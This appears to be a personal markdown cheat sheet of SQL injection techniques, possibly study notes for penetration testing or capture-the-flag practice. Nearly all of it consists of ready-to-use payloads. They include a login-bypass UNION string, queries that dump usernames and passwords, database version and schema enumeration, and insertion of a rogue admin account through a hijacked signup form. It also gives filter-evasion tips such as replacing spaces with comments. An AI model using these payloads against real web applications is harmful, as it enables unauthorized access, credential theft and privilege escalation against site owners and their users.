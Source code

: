# SQLi notes

#### Bypass login
`admin' UNION SELECT 'pass' AS password FROM admins WHERE '1' = '1` in username field and than `pass` in password field

#### To jump to other tables:
`' UNION SELECT username, password FROM users--`

#### Enumerate database columns
`SELECT * FROM information_schema.tables`

#### Grab DB name
`%’ or 0=0 union select null, database() #`

#### Grab all column contents
`%’ and 1=0 union select null, concat(first_name,0x0a,last_name,0x0a,user,0x0a,password) from users # Click Submit`

#### Grab a pw
`1 or 1 =1 union Select 1, password from users`
`1'union select null, concat_ws (char (32,58,32), user, password) from users #`

#### Enumerate vesrion:
`SELECT * FROM v$version`
`SELECT @@version`
`SELECT version()`

#### Create your own user:
`INSERT INTO users (username, password, ID, privs) VALUES ('nuadmin','pass',2248,1)`

#### Hijack user creation form to create a user with admin privs:
`nuadmin', 'pass', 9999, 0)--`

#### Enumerating columns:
Consider an online user search, its statement would be something like:

`SELECT * FROM users WHERE ID=1`

To enumerate what we can union select, we can add a union select, and keep adding columns until we no longer get errors.

`ID=1 UNION SELECT 1,2--` OR `ID=1 ORDER BY 4` OR `GROUP BY 1,2,3,4,5,6,7,8,9,10`

If data from only first part of query is returned, we can invalidate it:

`ID=1 AND 1=2 UNION SELECT 1,2,3--`

If this returns our own values, we can start emumerating sys info:

`id=1 and 1=2 union select version(), user(),3`

#### Quick tips:
space sanitisation can be defeated with `/**/`

sometimes adding a comment at the end of query can complete the injection `--` (postgresql) `#` (mysql) `--+-`

Sometimes a webpage will take a parameter as a string, not an int - in which case we close the quotes so our entire injection isnt considered one string:

`SELECT * FROM users WHERE ID=1'` *Remember you may need to close the attack with another apostrophe*

`UNION` only selects distnict, use `UNION ALL` to select duplicates

To begin an attack, try to break the string with an invalidation
Pay attention to the backend use of single and double quotes in errors

#### BlindSQL:
Truth must be "infered" generally with a sleep function
